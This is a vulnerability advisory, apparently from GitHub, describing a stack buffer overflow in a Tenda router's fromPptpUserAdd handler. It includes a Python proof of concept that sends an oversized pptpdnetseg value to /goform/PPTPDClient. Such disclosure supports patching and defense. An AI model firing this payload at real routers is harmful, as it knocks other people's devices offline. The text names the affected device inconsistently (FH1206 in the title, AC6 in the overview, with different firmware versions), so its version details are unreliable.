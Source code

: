 # Stack Overflow Vulnerability in Tenda FH1206 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the pptpdnetseg parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the pptpdnetseg value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long pptpdnetseg input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious pptpdnetseg parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the pptpdnetseg parameter, which directly overwrites stack memory.
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd5.png)
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd6.png)

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"pptpdnetseg": "E"*4000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```
![PoC](fromPptpUserAdd4.png)
### PoC Run Results:
![Results](fromPptpUserAdd1.png)




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent stack overflow attacks.



